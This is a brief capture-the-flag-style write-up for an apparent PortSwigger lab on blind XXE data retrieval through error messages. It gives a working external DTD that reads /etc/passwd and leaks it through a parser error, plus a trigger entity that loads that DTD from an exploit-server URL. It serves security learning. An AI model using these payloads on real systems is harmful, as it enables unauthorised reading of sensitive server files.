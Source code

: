 # Exploiting [blind XXE](https://portswigger.net/web-security/xxe/blind) to retrieve data via error messages


The trick with this lab is to define the appropriate entity to extract the contents of the file.

External DTD (exploit server):
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;
```

Request trigger entity:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a53009104dc3d51822a963b01cc00c7.exploit-server.net/exploit"> %xxe;]>
```

![[exploited-2.png]]

